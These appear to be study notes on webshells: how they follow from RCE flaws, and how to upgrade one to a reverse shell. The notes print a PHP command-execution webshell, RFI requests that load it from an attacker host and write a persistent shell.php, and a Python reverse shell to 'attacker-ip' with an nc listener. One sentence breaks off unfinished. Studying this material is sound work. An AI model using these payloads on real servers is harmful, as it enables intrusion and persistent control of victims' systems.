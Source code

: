 # 14.webshell

24/05/25

## Recall

- What is a WebShell?
- What is the difference between a WebShell and a typical RCE?
- Why would an attacker prefer to create a WebShell instead of executing one-off commands?
- What conditions must exist for a WebShell to be created?
- How can a WebShell lead to a reverse shell?
- What risks does a WebShell pose beyond simple command execution?
- How can developers detect and prevent WebShell deployment?

## Notes

### What it is

A **WebShell** is a malicious script uploaded to a web server that allows an attacker to execute arbitrary system commands through HTTP requests, effectively behaving like a shell.

The attacker typically identifies a language that the server can interpret (such as PHP, ASP, JSP, or others) and creates a script capable of receiving commands as parameters and executing them.

A WebShell acts as a bridge for persistent remote code execution (RCE). While it grants full access based on the privileges of the web process, it leaves an artifact on the server — the shell itself.

### How to identify it

A WebShell is not a vulnerability in itself but a consequence of one — usually an **RCE vulnerability**. This RCE can be achieved through several attack vectors, including:

- Local File Inclusion (LFI)
- Remote File Inclusion (RFI)
- SQL Injection leading to file write (`SELECT INTO OUTFILE`)
- Unrestricted file upload
- Command injection

Once RCE is established, an attacker can deploy a WebShell by identifying the scripting language handled by the server.

Example with RFI payload:

```php
<?php system($_GET["cmd"]); ?>
```

Serving the payload:

```bash
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Loading the payload remotely:

```bash
https://target.com/?page=http://attacker:8000/payload.php?cmd=id
```

At this point, the attacker has a WebShell, but it is not persistent — it only works as long as the malicious file is being served externally.

The attacker can run a command via the temporary WebShell to write a permanent shell file on the server:

```bash
https://target.com/?page=http://attacker-ip:attacker-port/payload.php?cmd=echo '<?php system($_GET["cmd"]);' > ./shell.php
```

Testing the new WebShell:

```bash
https://target.com/shell.php?cmd=id
```

Example output:

```bash
uid=33(xxx) gid=33(xxx) groups=33(xxx)
```

Each language have a 

### How to exploit it

Once a WebShell is deployed, the attacker can execute any command the underlying web process user has permission for (commonly `www-data`, `apache`, or similar).

If the server is poorly configured, it's possible to gain full administrative access purely from the WebShell.

One of the first steps in post-exploitation is to upgrade from a WebShell to a more stable access, such as a **reverse shell**, which creates a direct, interactive terminal connection back to the attacker.

This approach often bypasses firewall restrictions because outbound traffic is generally allowed, while inbound connections (as used in bind shells) are typically blocked.

Python reverse shell example:

```bash
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("attacker-ip", attacker-port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```

Attacker listening with Netcat:

```bash
nc -lvnp attacker-port
```

Example output upon connection:

```bash
Listening on 0.0.0.0 attacker-port
Connection received on attacker-ip 53312
bash: cannot set terminal process group (80096): Inappropriate ioctl for device
bash: no job control in this shell
target-user@hostname:/var/www/html$
```

## Summary

A **WebShell** is a method for achieving persistent remote code execution by placing an executable script on the target server. It allows an attacker to execute any command the web service user has permissions for.

From a WebShell, the attacker can escalate their attack by deploying a reverse shell, which often bypasses firewall restrictions and provides an interactive terminal. This transition greatly increases the attacker's ability to perform privilege escalation, lateral movement, data exfiltration, and establish persistence within the target system.